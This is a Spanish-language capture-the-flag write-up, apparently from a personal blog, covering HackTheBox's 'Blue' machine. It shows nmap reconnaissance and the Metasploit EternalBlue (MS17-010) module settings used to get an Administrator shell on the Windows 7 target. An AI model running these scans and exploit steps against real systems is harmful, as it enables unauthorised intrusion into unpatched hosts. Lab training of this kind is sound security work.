 ```yaml
---
layout      : post
title       : "Blue - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Blue-HackTheBox/Blue.webp
optimized_image : /assets/images/HTB/Blue-HackTheBox/Blue.webp
category    : [ htb ]
tags        : [ Windows ]
description : Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.
---
```


Tenemos una máquina nivel EASY Windows, en la que explotaremos la vulnerabilidad eternalblue del protocolo SMB, de forma automatizada con metasploit y no tendremos que escalar privilegios ya el propio exploit nos dará acceso al usuario Administrador.

![](/assets/images/HTB/Blue-HackTheBox/Blue2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/Blue-HackTheBox/Blue-rating.webp)

***


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Explotación](#explotacion).
    * [Metasploit](#metasploit).


***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

***

## Reconocimiento de Puertos [🔍](#recon-nmap) {#recon-nmap}

Lanzamos el escaneo de puertos.

```bash
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Lanzamos un escaneo mas detallado para saber que servicios y versiones se ejecutan en los puertos existentes que hay abiertos.

```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-16T20:10:20
|_  start_date: 2022-10-16T19:29:57
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-10-16T21:10:17+01:00
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
```

Lanzamos escaneo de vulnerabilidades usando un script que ya viene implementado en nmap, el script es `vuln`

```bash
# Comando para lanzar el script
-------------------------------
nmap -p145,139,445 -n -Pn --script=vuln 10.10.10.40
```

![](/assets/images/HTB/Blue-HackTheBox/nmap-vuln.webp)

Veremos que el sistema es vulnerable a smb-vuln-ms17-010 o eternalblue.

Asique procedo a explotar la vulnerabilidad.

![](/assets/images/HTB/Blue-HackTheBox/gif.gif)

# Explotación [#](explotación) {#explotacion}

***

## Metasploit [💣](#metasploit) {#metasploit}

Explotaré la vulnerabilidad a través de metasploit.

Buscando encuentro varios exploit, asique elijo el siguiente:

> exploit/windows/smb/ms17_010_eternalblue

![](/assets/images/HTB/Blue-HackTheBox/msf1.webp)

Configuro los parámetros del exploit:

```bash
# Ip de la máquina víctima
set RHOST 10.10.10.40
----------------------------
# Ip de mi máquina local (mi interfaz de la vpn)
set LHOST tun0
------------------------------------------------
# Lanzamos el exploit
exploit
```

![](/assets/images/HTB/Blue-HackTheBox/msf2.webp)

Como podemos ver ya me he convertido en el usuario Administrador, por lo tanto ya podemos leer la flag user.txt y root.txt.

![](/assets/images/HTB/Blue-HackTheBox/flags.webp)

![](/assets/images/HTB/Blue-HackTheBox/fin.gif)

![](/assets/images/HTB/Blue-HackTheBox/share.webp)



